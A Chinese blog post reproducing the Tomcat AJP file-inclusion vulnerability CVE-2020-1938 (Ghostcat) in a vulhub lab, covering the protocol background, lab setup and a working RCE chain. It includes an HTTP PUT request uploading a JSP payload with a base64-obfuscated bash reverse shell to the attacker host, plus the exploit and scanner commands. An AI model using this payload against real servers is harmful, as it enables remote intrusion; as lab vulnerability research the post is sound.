 ```yaml
---
layout: post
title: "Tomcat(CVE-2020-1938)漏洞复现与分析"
date: 2022-01-22
author: 2hanx
toc: true
categories: [漏洞复现,漏洞分析]
tags: ["Tomcat", "CVE-2020-1938"]
---
```


### 漏洞介绍

该漏洞是 Tomcat AJP 文件包含漏洞，是长亭科技安全研究员发现的 Tomcat 安全漏洞，可查看长亭科技对该漏洞的[基本介绍](https://www.chaitin.cn/zh/ghostcat)，从中可以知道由于 Tomcat AJP 协议设计上存在缺陷，攻击者通过 Tomcat AJP Connector 可以读取或包含 Tomcat 上所有  webapp 目录下的任意文件，例如可以读取 webapp  配置文件或源代码。此外在目标应用有文件上传功能的情况下，配合文件包含的利用还可以达到远程代码执行的危害。

### 漏洞危害

1. 可以读取 webapp 目录下的任意文件；
2. 在目标应用有文件上传功能的情况下，配合文件包含的利用还可以达到远程代码执行的危害。

### 漏洞原理

Tomcat 配置了两个 *Connector*，分别是 HTTP 和 AJP：

- HTTP Connector：用于处理 HTTP 请求，默认监听端口是 **8080**；
- AJP Connector：用于处理 AJP 协议（Apache Jserv Protocol）的请求，默认监听端口 **8009**，该协议可理解为 HTTP 协议的二进制性能优化版本，可以降低 HTTP 请求的处理成本，因此主要用于集群、反向代理的场景中。

下图中就是 Tomcat 对两个 *Connector* 的默认配置：

```xml
<!-- /usr/local/tomcat/conf/server.xml -->
......
<Connector port="8080" protocol="HTTP/1.1"
               connectionTimeout="20000"
               redirectPort="8443" />
......
<!-- Define an AJP 1.3 Connector on port 8009 -->
    <Connector port="8009" protocol="AJP/1.3" redirectPort="8443" />
......
```

### 环境搭建

照例通过 vulhub 上的 docker 环境进行复现，使用 `docker-compose` 命令配置环境即可。

| 计算机 | IP                |
| ------ | ----------------- |
| Kali   | `192.168.174.128` |
| Win10  | `192.168.174.1`   |
| Victim | `192.168.174.141` |

### 漏洞复现

配置好环境后访问 Victim 的 *8080* 端口，看到 Tomcat 的版本是 **9.0.30**。

![1]({{ '/tomcat2/1.png' | prepend: site.url }})

接下来使用大神编写好的[代码](https://github.com/YDHCUI/CNVD-2020-10487-Tomcat-Ajp-lfi)进行漏洞检测和利用，可以查看 *webapps* 目录下的文件。

![2]({{ '/tomcat2/2.png' | prepend: site.url }})

为了实现 RCE，也就是 Tomcat 支持文件上传，这里我们修改 *conf/web.xml* 文件，添加 *readonly* 为 *false*。

```xml
......
        <init-param>
            <param-name>readonly</param-name>
            <param-value>false</param-value>
        </init-param>
        <load-on-startup>1</load-on-startup>
......
```

不过该版本已修复 CVE-2017-12615 漏洞，不能成功绕过限制上传 JSP 文件，然而我们仍然可以上传其他的文件格式，比如说 *txt*。

```http
PUT /a.txt HTTP/1.1
Host: 192.168.174.141:8080
Cache-Control: max-age=0
DNT: 1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close
Content-Length: 353

<%
    java.io.InputStream in = Runtime.getRuntime().exec("bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvODg4OCAwPiYx}|{base64,-d}|{bash,-i}").getInputStream();
    int a = -1;
    byte[] b = new byte[2048];
    out.print("<pre>");
    while((a=in.read(b))!=-1){
        out.println(new String(b));
    }
    out.print("</pre>");
%>
```

此时 *a.txt* 文件已上传到服务器上，接下来需要修改下之前的利用代码，在下图所示中添加 *.jsp* 。

![3]({{ '/tomcat2/3.png' | prepend: site.url }})

之后再执行代码：

```shell
python2 .\CNVD-2020-10487-Tomcat-Ajp-lfi.py -p 8009 192.168.174.141 -f a.txt
```

此时 Kali 即可接收到反弹的 shell 。

![4]({{ '/tomcat2/4.png' | prepend: site.url }})

### 漏洞分析

### 漏洞验证

可以使用 Xray 进行漏洞验证，通过查看它的 POC 文件，我们知道他也是将我们上述的操作自动化执行，并且也会在服务器上创建文件。

```powershell
.\xray.exe servicescan --target 192.168.174.141:8009 --html-output vulns\tomcat.html
```

![5]({{ '/tomcat2/5.png' | prepend: site.url }})

### 修复建议

升级最新版本。

### 总结

1. 熟悉 Tomcat 的两种协议；
2. JSP 反弹 shell

### Ref.

- [https://mp.weixin.qq.com/s/MpO67u2voXBVQgISDq9g6Q](https://mp.weixin.qq.com/s/MpO67u2voXBVQgISDq9g6Q)
- [https://weread.qq.com/web/reader/c8732a70726fa058c87154bk76d325c028076dc611d6d8c](https://weread.qq.com/web/reader/c8732a70726fa058c87154bk76d325c028076dc611d6d8c)
- [https://www.chaitin.cn/zh/ghostcat](https://www.chaitin.cn/zh/ghostcat)
- [Java.lang.Runtime.exec() payload生成器](https://www.jackson-t.ca/runtime-exec-payloads.html)
- [AJPv13协议](https://tomcat.apache.org/connectors-doc/ajp/ajpv13a.html)
